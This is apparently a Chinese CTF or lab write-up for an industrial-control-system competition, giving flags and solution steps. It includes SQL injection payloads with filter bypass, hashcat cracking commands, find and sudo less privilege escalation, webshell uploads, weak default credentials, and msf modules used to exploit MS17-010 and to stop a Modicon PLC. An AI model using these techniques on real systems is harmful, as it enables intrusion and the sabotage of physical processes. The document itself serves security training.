# 流量分析

直接找



解 base64

STJzX0NvbUU=

flag{I2s_ComE}

---

# 协议分析

找 modbus



解 base64

ZmxhZ3tzNDVlZ1dUNH0=

flag{s45egWT4}

---

# 工程分析

proj.hwdev

要用 HaiwellScada 进行打开

运行后就有 flag 了



flag{oz5K5stdC3oNS1ouV60Lj}

---

# 密码恢复

安装 力控科技监控组态软件ForceControl V7.0

打开 PCZ 文件

找到用户管理



发现账号



用星号密码查看器直接看


flag{elexadmin}

---

# 逆向分析

改自身host文件，将chall.pwnable.tw解析到自己127.0.0.1

python起http服务





flag{7c123056b118a1fe}

---

# 5G通讯协议

找 `GTP <GSM SMS>`





flag{IC7856@qwe}

---

# 官网

shiro getshell

然后 直接土豆提权





flag{CWDXIR2PI55LHVJR}

---

# 工艺维护系统

弱口令 admin/admin123 登录通达后台



获取 cookie 后利用通达oa11.8上传



注意要 bypass disablefunc

getshell





flag{9KQLSBNZ5KTN8ZE3}

---

# 厂级管理系统

根据提示扫到数据库备份

/Data/data.mdb

53ee1ac4f1a404af899a4f3136aa34e3

hashcat 爆出 md5 是 aaaant

登录后在 界面风格-模板管理 直接新建一个 aspx



土豆提取 getshell



flag{CCJX64D2FXBVLPWR}

---

# 5G网智能管理平台

S2 框架 白送的题

flag{MZNWGVEOYDJ2HX4A}



---

# 办公仓储应用



手工注入 获取hash

```
admin' a and nd   updatexml(1,concat(0x7e,version(),0x7e),1)#


user=admin' a and nd updatexml(1,concat(0x7e,(selselectect group_concat(table_name) fr from om information_schema.tables whe where re table_schema like database()),0x7e),1)#
```
操作数据库失败XPATH syntax error: '~bees_admin,bees_admin_group,bee'


```
user=admin' a and nd updatexml(1,concat(0x7e,(selselectect admin_password fr from om beescms.bees_admin wh where ere admin_name like 'admin'),0x7e),1)#


user=admin' a and nd updatexml(1,concat(0x7e,substr((selselectect admin_password fr from om beescms.bees_admin wh where ere admin_name like 'admin'),24,64),0x7e),1)#
```

获取md5长度有限分两次跑，拼接如下

4e9f837b6543e963aef344abbdfa9d04

.\hashcat.exe -m 0 4e9f837b6543e963aef344abbdfa9d04 -a 3 --increment --increment-min 1 --increment-max 8 ?a?a?a?a?a?a?a?a



hashcat 跑出来是 ddddhm

文件上传绕过





利用 find 可以提权

```
cd /tmp
touch test
find test -exec cat /root/flag.txt \;
```



flag{CO4U1WZV1I2U1JVI}

---

# ERP

弱口令 admin/admin888

后台大小 php 后缀绕过上传限制

/home/www 下有 .passwd 是 www 用户的 ssh 密码

登陆后查看 cat /etc/sudoers

使用 less 提权
sudo /bin/less /opt/lampp/logs/access_log
!/bin/sh

---

# 石化废液

## 石化废液操作员站

2曾上架设 nps

目标为xp,存在 17-010 回弹失败,尝试用 msf 的 ms17_010_command 直接执行命令

添加管理员账号密码，桌面找 flag

## 石化废液PLC

在 C:\Documents and Settings\ELEX-guest\桌面\simulation_PLC\simulation_plc\WebCfg 找到 KvWebUser.dat 查看找到疑似密码

使用 Admin adminTE 成功登录运行系统，改为手动模式

---

另一种解法是 simulation_plc 直接修改系统管理员密码进行登录

---

还有一种解法 test/123456 登录，登陆后修改任意用户密码

## 石化废液场景题

管理员登录后，即可控制泵的运行，可以启动泵，点击 start 即可

---

# 油气集输

## 油气集输操作员站

弱口令 admin/000000

登陆后有 flag

## 油气集输场景题

登录后，上面已经打开了油气传输控制管理界面，直接停止即可

---

另一种解法

netstat 确定 plc 地址

观察到箱子里 plc 大概是施耐德 M340，用 msf auxiliary/admin/scada/modicon_command 模块直接关闭

## 油气集输plc

使用 modscan32 连接目标 502 端口

---

# 电力场景

## 电力场景操作员站

弱口令 test/123456

登陆后查看管理员最近使用的文件, c:\PS6900\Opnote\操作票 里面有flag

## 电力场景题

查看异常日志文件,有个 202009.evt 时间戳不一致,打开是 hex 的 flag 解码一下即可

## 电力通信服务器

用桌面 111111 文件替换 C:\PS6900\data\password.dat 文件

使用 test/11111 登录上位机软件即可更改任何闸门
